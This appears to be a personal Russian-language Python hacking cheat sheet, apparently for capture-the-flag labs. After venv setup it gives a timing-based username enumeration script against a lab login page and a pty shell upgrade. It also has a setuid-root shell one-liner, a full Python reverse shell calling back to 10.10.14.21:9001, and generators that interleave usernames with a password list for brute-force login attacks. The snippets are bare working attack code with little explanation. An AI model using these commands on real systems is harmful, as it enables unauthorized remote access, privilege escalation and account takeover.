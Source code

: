 # Python

# Активировать виртуальную среду


python3 -m venv venv

source venv/bin/activate

pip3 install -r requirements.txt

pip3 install .

deactivate    (выход и окружения)

# Интерактивный режим

    python3 -i script.py

    import requests
    import sys

    # URL формы регистрации
    url = "http://10.10.11.135/login.php?login=true"
    data = {"user":sys.argv[1],"password":"dvdsvdsvdsvsdvs"}
    # Отправка POST-запроса
    response = requests.post(url, data=data)
    print(response.elapsed.microseconds)

![Uploading image.png…]()


# получение виртуальной оболочки внутри текущей сессии линукс

    python3 -c 'import pty;pty.spawn("/bin/bash")'

    export TERM=xterm

# выполнение команд оси

./python3.8 -c “import os; os.setuid(0), os.system(‘/bin/sh’)”

# Reverse shell

    exec python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.21",9001));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
# Разное
for i in range(150):
        if i % 3:
                print("carlos")
        else:
                print("wiener")


print("**************************************************************")
'''
with open('pass.txt', 'r') as f:
        lines = f.readlines()
i=0

for pwd in lines:
    if i % 3:
        print(pwd.strip('\n'))
    else:
        print("peter")
        print(pwd.strip('\n'))
        i = i+1
    i = i + 1
